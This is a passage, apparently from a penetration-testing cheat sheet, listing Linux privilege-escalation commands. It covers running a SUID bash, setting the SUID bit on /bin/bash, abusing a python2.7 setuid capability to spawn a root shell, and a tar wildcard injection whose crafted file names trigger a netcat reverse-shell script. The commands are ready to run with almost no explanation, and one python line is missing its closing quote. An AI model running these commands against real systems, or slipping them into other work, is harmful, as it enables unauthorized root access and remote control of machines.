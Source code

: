   ```bash
  -rwsr-sr-x 1 root  root  1113504 Jul 22  2020  .suid_bash
  ./.suid_bash -p
  ```
  
- If a command contain suid bit,

  ```bash
  $ ltrace <command>
  ```

  and find `getenv("admin")`

  ```bash
  $ export admin=1
  ```

- If you are already root but not interactive shell;

  ```bash
  chmod +s /bin/bash
  ```

  then,

  ```bash
  /bin/bash -p
  ```


### Excutable files

```bash
$ groups
> users <username>
$ find / -group users -type f 2>/dev/null
```



### Capabilities

```bash
getcap -r / 2>/dev/null
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");
```



### Crontab

#### Wildcards*

Set if run * in home directory

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f" > shell.sh 
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" 
touch "/var/www/html/--checkpoint=1"
```
